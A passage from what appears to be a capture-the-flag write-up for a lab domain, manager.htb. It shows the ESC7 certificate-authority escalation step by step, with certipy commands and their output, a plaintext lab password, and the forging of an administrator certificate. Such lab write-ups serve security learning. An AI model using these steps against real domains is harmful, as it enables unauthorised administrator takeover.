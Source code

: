 It looks like we can use the escalation technique ESC7.

> ESC7 is when a user has the Manage CA or Manage Certificates access right on a CA. There are no public techniques that can abuse the Manage Certificates access right for domain privilege escalation, but it can be used it to issue or deny pending certificate requests.

This escalation technique is when a user has the `Manage CA` or `Manage Certificates` access right on a Certificate Authorithy.

The steps to exploit this technique is shown in the github of the tool.

First step is to give the Manage Certificates permission to the user `Raven`: (note that we can do this only because the user `Raven` has ManageCa rights.)

```sh
certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

As this is temporary because of resets, we have to act fast or repeat the above step in case on problem.

Now the attack steps are the following:

- Request a certificate based on the `SubCa` template:

```sh
certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'

[*] Requesting certificate via RPC                         
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 13
Would you like to save the private key? (y/N) y
[*] Saved private key to 13.key
[-] Failed to request certificate
```

It is normal to have a failed response, what matters here is the request ID.

With our Manage CA and Manage Certificates, we can then issue the failed certificate request with the ca command and the -issue-request <request ID> parameter.

```sh
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'

[*] Successfully issued certificate
```

And finally, we can retrieve the issued certificate with the req command and the -retrieve <request ID> parameter.

```sh
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'   
                                                                    
[*] Rerieving certificate with ID 13          
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '13.key'                     
[*] Saved certificate and private key to 'administrator.pfx'

```
